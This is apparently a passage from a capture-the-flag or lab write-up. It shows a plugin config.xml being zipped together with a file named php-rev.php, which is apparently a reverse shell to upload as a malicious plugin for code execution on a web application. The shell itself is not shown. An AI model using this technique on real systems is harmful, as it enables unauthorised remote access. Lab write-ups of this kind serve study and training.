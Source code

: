 

añadir 6



```bash
❯ cat config.xml
<?xml version="1.0" encoding="UTF-8"?>
<config>
    <metadata>
        <name>Y1LD1R1M</name>
        <type>plugin</type>
        <creationDate>2020-03-20</creationDate>
        <lastUpdate>2020-03-31</lastUpdate>
        <author>Y1LD1R1M</author>
        <authorUrl>https://github.com/Y1LD1R1M-1337</authorUrl>
        <supportUrl>https://github.com/Y1LD1R1M-1337</supportUrl>
        <version>5.0</version>
        <license>GNU General Public License version 2 or later</license>
        <description>
		<![CDATA[Author : Y1LD1R1M]]></description>
    </metadata>

    <compatibility>
        <version>3.0</version>
        <version>4.0</version>
        <version>5.0</version>
        <version>6.0</version>
    </compatibility>
    <updaters disabled="disabled"></updaters>
</config>
```



<figure><img src="../../.gitbook/assets/4079_vmware_aqNmBBlOZx.png" alt=""><figcaption></figcaption></figure>



```bash
❯ zip Gzzcoo.zip config.xml php-rev.php
  adding: config.xml (deflated 57%)
  adding: php-rev.php (deflated 61%)
❯ ls -l Gzzcoo.zip
.rw-rw-r-- kali kali 1.6 KB Fri Jan 24 22:57:27 2025  Gzzcoo.zip
```
